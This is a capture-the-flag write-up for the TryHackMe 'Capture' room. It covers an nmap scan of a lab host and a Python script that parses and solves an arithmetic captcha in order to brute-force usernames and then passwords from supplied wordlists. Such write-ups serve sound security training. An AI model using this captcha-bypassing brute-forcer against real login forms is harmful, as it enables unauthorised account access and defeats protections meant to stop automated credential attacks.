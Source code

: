 ```yaml
---
title: Capture TryHackMe Writeup
tags: [writeup, tryhackme, bypass, captcha, bruteforce, python]
style: border
color: success
description: ""
---
```


![logo](../assets/img/capture-tryhackme-writeup/machine.jpg)

## Scanning
We scan the open ports with the **nmap** tool with scripts and software versions.

```
> nmap -sVC -p- --min-rate 5000 10.10.183.73 -Pn -n -oN nmap-10.10.183.73.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 22:10 CEST
Nmap scan report for 10.10.183.73
Host is up (0.058s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug/2.2.2 Python/3.8.10
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /login
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sun, 07 May 2023 20:11:27 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sun, 07 May 2023 20:11:22 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 199
|     Location: /login
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="/login">/login</a>. If not, click the link.
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sun, 07 May 2023 20:11:22 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-server-header: Werkzeug/2.2.2 Python/3.8.10
```

## Enumeration
We access the website, see the Intranet authentication form, try default credentials, but without success.
![](../assets/img/capture-tryhackme-writeup/1.png)

We download the files, there is a list of users and a list of passwords, this gives us a clue that we will have to use brute force. (*These files are provided in the challenge description.*)

```
> ls
passwords.txt  usernames.txt
                                                                                            
> wc -l *
 1567 passwords.txt
  877 usernames.txt
 2444 total

```
It seems easy, but things get complicated because the application has an arbitrary captcha protection, so we will have to generate a script in Python (or the language you control) to perform brute force and evade the protection.
![](../assets/img/capture-tryhackme-writeup/4.png)

## Exploitation
In my case, I assemble a simple Python script with a function to calculate the captcha and make the request, the script is divided into two parts:
1. First it detects the existing user.
2. If the user exists, it will start to get the password and as soon as it detects it, it will stop.
#### Script coding
```python
#!/usr/bin/env python3

import requests, re

url = "http://10.10.183.73/login"
burp = {'http': 'http://127.0.0.1:8080'}

def extractCaptcha(html):
    captcha_regex = r'(\d+)\s*([\+\-\*])\s*(\d+)\s*=\s*\?'
    match = re.search(captcha_regex, html)
    if match:
        num1 = int(match.group(1))
        operator = match.group(2)
        num2 = int(match.group(3))
        if operator == '+':
            result = num1 + num2
        elif operator == '-':
            result = num1 - num2
        elif operator == '*':
            result = num1 * num2
        return result
    else:
        return None

if __name__ == '__main__':

	s = requests.session()

	print("[+] Bruteforce starting...")

	result = "does not exist"
	fUsers = open('/home/kali/Documents/Capture/files/usernames.txt', errors='ignore')
	for username in fUsers.readlines():

		postData = {
			'username': username.strip(),
			'password': "test",
			'captcha': result
		}

		r = s.post(url, data=postData, proxies=burp, verify=False)
		result = extractCaptcha(r.text)

		if "does not exist" not in r.text:
			print("\n[+] Found User: " + username.strip())
			break

	
	username = username.strip()

	print("\n[+] Obtain password....")
	fPasswords = open('/home/kali/Documents/Capture/files/passwords.txt', errors='ignore')
	for password in fPasswords.readlines():
		postData = {
		'username': username,
		'password': password.strip(),
		'captcha': result
	}

		r = s.post(url, data=postData, proxies=burp, verify=False)
		result = extractCaptcha(r.text)
		
		if "Error:" not in r.text:
			print("\n[+] Found credentials: " + username.strip() + ":" + password.strip())
			break
```

After a few minutes we will get the credentials:

```
> python3 bruteforce.py
[+] Bruteforce starting...

[+] Found User: xxxxxxxxx

[+] Obtain password....

[+] Found credentials: xxxxxx:********
```
Finally we authenticate with the credentials and we will obtain the flag.

![](../assets/img/capture-tryhackme-writeup/3.png)